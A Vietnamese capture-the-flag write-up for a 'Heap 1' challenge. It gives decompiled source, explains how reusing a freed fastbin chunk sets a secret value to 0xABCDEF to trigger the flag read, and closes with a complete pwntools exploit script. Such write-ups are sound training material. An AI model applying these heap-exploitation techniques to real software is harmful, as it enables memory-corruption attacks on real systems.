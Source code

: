 # Heap 1

## Source

<details> <summary> Source IDA </summary>

```c

__int64 catflag()
{
  int fd; // [rsp+Ch] [rbp-74h]
  char buf[104]; // [rsp+10h] [rbp-70h] BYREF
  unsigned __int64 v3; // [rsp+78h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  fd = open("/home/uss/Desktop/flag", 0);
  if ( fd < 0 )
    printf("no flag file. Ask manager for help !");
  read(fd, buf, 0x64uLL);
  puts(buf);
  close(fd);
  return 1LL;
}

__int64 menu()
{
  puts("1: create heap");
  puts("2: delete heap");
  puts("3: exit");
  puts(">");
  return 0LL;
}

__int64 create()
{
  int i; // [rsp+8h] [rbp-18h]
  unsigned int size; // [rsp+Ch] [rbp-14h]
  _QWORD *size_4; // [rsp+10h] [rbp-10h]

  for ( i = 0; i <= 8 && *(&ptr + i); ++i )
    ;
  printf("Input size:");
  size = sub_400A53();
  if ( size > 0x1000 )
    exit(0);
  size_4 = malloc(0x10uLL);
  *size_4 = malloc(size);
  *(&ptr + i) = size_4;
  printf("Input data:");
  sub_4009E8(*size_4, size);
  return 0LL;
}

__int64 delete()
{
  int v1; // [rsp+4h] [rbp-Ch]
  void *ptr; // [rsp+8h] [rbp-8h]

  printf("Input index:");
  v1 = sub_400A53();
  if ( v1 >= 0xA )
    exit(0);
  if ( *(&::ptr + v1) )
  {
    ptr = **(&::ptr + v1);
    free(*(&::ptr + v1));
    free(ptr);
    **(&::ptr + v1) = 0LL;
    *(&::ptr + v1) = 0LL;
    puts("Done ");
  }
  return 0LL;
}


__int64 secret()
{
  if ( !secret_value )
    return 0LL;
  if ( *(secret_value + 8) == 0xABCDEFLL )
    catflag();
  return 0LL;
}

void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  const char *v3; // rdi
  int v4; // eax

  init_0();
  v3 = "Ez heap challange !";
  puts("Ez heap challange !");
  while ( 1 )
  {
    while ( 1 )
    {
      menu(v3, a2);
      v4 = sub_400A53();    //hàm xử lí nhập
      if ( v4 != 2 )
        break;
      delete();
    }
    if ( v4 > 2 )
    {
      if ( v4 == 3 )
        exit(0);
      if ( v4 == 4 )
      {
        secret();
      }
      else
      {
LABEL_13:
        v3 = "no option";
        puts("no option");
      }
    }
    else
    {
      if ( v4 != 1 )
        goto LABEL_13;
      create();
    }
  }
}

```

</details>

## Ý tưởng

- Ở đây ta có hàm `catflag()` trong `secret()`, mục tiêu của ta là thoả mãn `if ( *(secret_value + 8) == 0xABCDEFLL )`, `secret_value` ở global, có vẻ nó lưu các địa chỉ heap.
  ![image](https://github.com/wan-hyhty/trainning/assets/111769169/61dedb22-814c-4c2f-b1a8-6bdfbdc19e1b)
- `secret_value` chỉ lưu các `heap 0x20` mà trong các heap đó chứa một địa chỉ heap khác là payload lúc ta `create`
- giá trị `*(secret_value + 8)` là chunk 0x20 thứ 3
  ![image](https://github.com/wan-hyhty/trainning/assets/111769169/26005c91-8d91-41ee-8056-f48c3f34e675)
- Vậy lỗ hổng ở cơ chế lưu chunk của tcache và fastbin (bài này là fastbin)
- tcache và fastbin lưu các chunk được free() theo dslk đơn (tương tư như stack), last in first out (vào sau - ra trước)
  ![image](https://github.com/wan-hyhty/trainning/assets/111769169/2a51bc25-12f6-48ff-b027-1918b891d543)
- Vậy ta có ý tưởng như này
  ![image](https://github.com/wan-hyhty/trainning/assets/111769169/030269ca-8226-4115-968e-85e44ab8d513)
- Vậy ta đã đổi chỗ 2 chunk nhưng dữ liệu khi free() không hề được xoá, nghĩa là nó chỉ đánh dấu chunk đó không sài nữa, và khi gọi lại, ta ghi đè lên dữ liệu cũ. Đồng nghĩa khi đổi chỗ 2 chunk thì `chunk secret` chứa dữ liệu của `chunk payload`. Và một lí thuyết là khi free thì free có vẻ chỉ ghi đè 0x0 vào 8 byte đầu.
  ![image](https://github.com/wan-hyhty/trainning/assets/111769169/fe0c54f1-3b57-4eeb-84b1-02c96936609c)
- Cho nên nếu ta đổi chỗ 2 chunk thì ta hoàn toàn set được giá trị của `*(secret_value + 8)`

## Khai thác

- Đầu tiên ta tạo 2 chunk, do `secret_value` lấy chunk thứ 3, 2 chunk đầu không liên quan lắm nên size, data nhập như nào cũng được

```python
create(b"40", b"0"*8)
create(b"40", b"1"*8)
```

- Tiếp theo chunk thứ 3 là chunk mà `secret_value` lấy nên ta sẽ tạo 1 chunk có size là 0x20, vì để có thể đổi chỗ 2 chunk như phần ý tưởng thì 2 chunk phải cùng kích thước thì khi lấy ra từ fastbin mới có thể đổi chỗ, nếu khác size thì khi lấy ra nó sẽ trở về địa chỉ cũ. Payload ta thử để kiểm tra kết quả.
- Tạo chunk 3 rồi free nó, sau đó lại `create`

```python
create(b"16", b"a" * 8 + b"b" * 8)
delete(2)
create(b"16", b"a")

```

- Sau khi free
  ![image](https://github.com/wan-hyhty/trainning/assets/111769169/55c0ccd8-4f8d-47a7-ba50-905eb601bf73)

- Sau khi create() lần 4
  ![image](https://github.com/wan-hyhty/trainning/assets/111769169/63ee7803-90d3-41f5-9b15-99ebd31e15d4)
- Kiểm tra `secret_value`
  ![image](https://github.com/wan-hyhty/trainning/assets/111769169/2bcbdbd5-eebc-44e2-a4b7-f7674c1c9373)
- Kiểm tra `*(secret_value + 8)`
  ![image](https://github.com/wan-hyhty/trainning/assets/111769169/6784a214-46db-49bc-8c93-5c4c7256d283)
- Vậy `*(secret_value + 8)` sẽ lấy 8 byte "b" của payload nên ta sẽ sửa payload

```python
create(b"40", b"0"*8)
create(b"40", b"1"*8)
create(b"16", b"a" * 8 + p64(0xABCDEF))
delete(b"2")
create(b"16", b"a")
sla(b">\n", b"4")
```

## Kết quả
- Do không có file flag =))
![image](https://github.com/wan-hyhty/trainning/assets/111769169/109962b1-e11f-4a91-a04f-31ff72bdf69b)
```python
#!/usr/bin/python3

from pwn import *

exe = ELF('pwn1_ff_patched', checksec=False)
libc = ELF('libc.so.6', checksec=False)
context.binary = exe


def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
                b* 0x0000000000400cd4

                c
                ''')
        input()


def info(msg): return log.info(msg)
def sla(msg, data): return p.sendlineafter(msg, data)
def sa(msg, data): return p.sendafter(msg, data)
def sl(data): return p.sendline(data)
def s(data): return p.send(data)


if args.REMOTE:
    p = remote('')
else:
    p = process(exe.path)

GDB()


def create(size, payload):
    sla(b">\n", b"1")
    sla(b"size:", size)
    sa(b"data:", payload)


def delete(idx):
    sla(b">\n", b"2")
    sla(b"index:", idx)

create(b"40", b"0"*8)
create(b"40", b"1"*8)
create(b"16", b"a" * 8 + p64(0xABCDEF))
delete(b"2")
create(b"16", b"a")
sla(b">\n", b"4")


p.interactive()
```